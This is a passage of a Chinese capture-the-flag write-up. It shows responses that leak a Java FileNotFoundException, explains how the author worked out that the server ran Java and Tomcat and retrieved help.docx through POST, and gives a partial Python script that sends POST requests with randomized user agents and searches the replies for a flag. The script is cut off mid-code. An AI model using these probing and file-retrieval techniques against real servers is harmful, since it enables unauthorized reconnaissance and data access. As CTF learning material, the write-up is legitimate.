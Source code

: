 结果：

```java
--------It gets starting------
GET 请求成功!
响应内容： java.io.FileNotFoundException:{help.docx}
POST 请求成功!
响应内容： PK    ! ߤ�lZ     [Content_Types].xml �(� 
```

最后我也知道当时下载了help.docx不是幻觉了，是通过post下载了。

现在的问题是，

- 如何判断对方是java
   - `java.io.FileNotFoundException:{help.docx}`
- 如何判断是tomcat
   - 通过POST得到help.docx之后，随便输一个文件，比如flag.docx，回显会有服务器版本，在上面的writeup部分
   - 另外一个就是，Java web主流的是spring，要么是maven，要么是tomcat。
      - maven复制`src` ，顶多是将`resource` 放到外面
      - tomcat的部分就和上面的[tomcat部分](https://desktop.craft.do:6776/editor/d/3cf94341-028f-a488-10df-d065aa1370fc/d3036717-b075-fe5b-4aff-239f3b13366f/x/816404FD-8F2E-47CF-8DD9-B72577938A3F) 一样

## 最终版

```java
import time
import requests
import random

def get_user_agent():
    user_agents = [
        "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3",
        "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Firefox/59.0",
        "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/16.1709",
        "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.122 Safari/537.36",
    ]
    return random.choice(user_agents)


def get_headers():
    headers = {
        "User-Agent": get_user_agent(),
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "keep-alive",
    }
    return headers

def send_post_request(url, data=None):
    try:
        headers = get_headers()
        response = requests.post(url, headers=headers, data=data)

        if response.status_code == 200:
            if "flag" in response.text.lower():
                print("Found flag!")
                print("Response content:", response.text[:55000])
            else:
                print("POST request successful, but no flag found.")
        else:
            print(f"POST request failed, status code: {response.status_code}")
```